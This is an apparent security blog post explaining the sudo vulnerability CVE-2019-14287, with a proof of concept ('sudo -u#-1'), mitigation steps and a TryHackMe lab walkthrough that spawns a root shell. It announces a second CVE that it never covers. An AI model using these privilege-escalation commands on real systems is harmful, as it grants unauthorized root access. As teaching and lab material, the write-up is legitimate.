 ```yaml
---
title: "Sudo CVEs"
description: 
date: 2025-01-23T14:14:48Z
image: post/cvesudo.jpg
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["Privesc","kernel","Linux","Sudo","CVE"]
categories: ["Linux-Privilege-Escalation","Sudo-Attacks"] 
---
```


# Sudo CVEs

In this article, we will discuss sudo CVEs, specifically `CVE-2019-14287` and `CVE-2019-18634`, and how they allow us to achieve sudo privilege escalation on Linux systems.  

## **CVE-2019-14287**

CVE-2019-14287 is a vulnerability in `sudo` that allows a user with restricted privileges to execute arbitrary commands as **root**, even if they are explicitly denied in the `sudoers` file. This occurs due to improper validation of the user ID (`UID`) when running commands.

---

## **Details of the Vulnerability**

1. **Affected Software**:
    - `sudo` versions prior to **1.8.28**.
    
1. **Vulnerability Description**:
    - When `sudo` is configured to allow a user to execute commands as any user **except root** using the `!ALL` directive in the `sudoers` file, the vulnerability allows bypassing this restriction.
    - The issue arises because `sudo` does not properly handle the `-1` or `4294967295` value for the `UID`. Internally, these values are interpreted as `0` (root).
2. **Exploitation**:
    - A user can exploit this by specifying `-u#-1` to execute a command as root, bypassing the restrictions.

---

## **Proof of Concept (PoC)**

### 1. Vulnerable Configuration in `/etc/sudoers`:

The following configuration denies a user (`exampleuser`) from executing commands as root:

```plaintext
exampleuser ALL=(ALL,!root) ALL
```

### 2. Exploit Command:

The attacker can bypass the restriction and run commands as root:

```bash
sudo -u#-1 id
```

### 3. Expected Output:

The command will execute as root (`UID=0`):

```plaintext
uid=0(root) gid=0(root) groups=0(root)
```

---

## **Impact**

- **Privilege Escalation**: The attacker gains root privileges, bypassing intended restrictions.
- **Severity**: High (CVSS Score: 7.8).

---

## **Mitigation**

1. **Update `sudo`**:
    
    - Upgrade to **sudo 1.8.28** or later, which properly validates `UID` values.
    
    ```bash
    sudo apt update && sudo apt install sudo
    ```
    
2. **Audit and Restrict sudoers Configuration**:
    
    - Ensure your `sudoers` file does not rely solely on `!root` for user restrictions.
3. **Monitor and Log sudo Usage**:
    
    - Use logs to monitor unusual activity involving `sudo`.

---

## Labs :

- https://tryhackme.com/r/room/sudovulnsbypass

### TryHackMe Lab 

Now that we have access to the machine, our next goal is to gain root privileges using the identified vulnerability.

First, we use the command `sudo -l` to check what commands we can execute with the current user.

![image alt text](post/cves1.png)


After running `sudo -l`, we see that we can run `/bin/bash` as another user except for root. Let’s exploit this vulnerability.

```shell
sudo -u#-1 /bin/bash
```

![image alt text](post/cvs2.png)


And just like that, we are now the root user! :

### **References**

- [MITRE CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
